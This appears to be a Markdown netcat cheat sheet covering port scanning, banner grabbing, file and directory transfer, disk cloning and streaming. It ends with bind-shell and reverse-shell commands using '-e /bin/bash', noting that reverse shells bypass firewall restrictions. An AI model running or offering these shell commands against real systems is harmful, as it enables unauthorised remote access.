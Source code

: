 ```yaml
---
title: Netcat
slug: netcat
description: Versatile tool for port scanning and network data transfer.
categories: ["Reconnaissance", "Network Security"]
bgColor: "bg-gray-100"
textColor: "text-gray-800"
top: false
---
```


## Getting Started {.cols-5}

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections

```shell script
$ nc -lp port [host] [port]
```

### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
| ------ | -------------------------- | ---------------------------------------- |
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |

### Chat client-server {.col-span-2}

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000
```

## Netcat Examples

### Banner grabbing

```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

or

```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25

```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080

```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

or

```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 < file.txt
```

Client

```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file "file.txt" from server A to client B.

### Upload file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 > file.txt
```

Client

```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file "file.txt" from client B to server A:

### Directory transfer

Server (192.168.1.9)

```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer {.col-span-2}

Server (192.168.1.9)

```shell script
$ openssl enc -des3 -in file.txt -pass pass:password | nc -l 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 | openssl enc -des3 -d -pass pass:password -out file.txt
```

Encrypt data before transfering over the network

### Clones

Server (192.168.1.9)

```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9)

```shell script
$ cat video.avi | nc -l 8000
```

Client

```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000 -e /bin/bash
```

Client

```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission
to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections
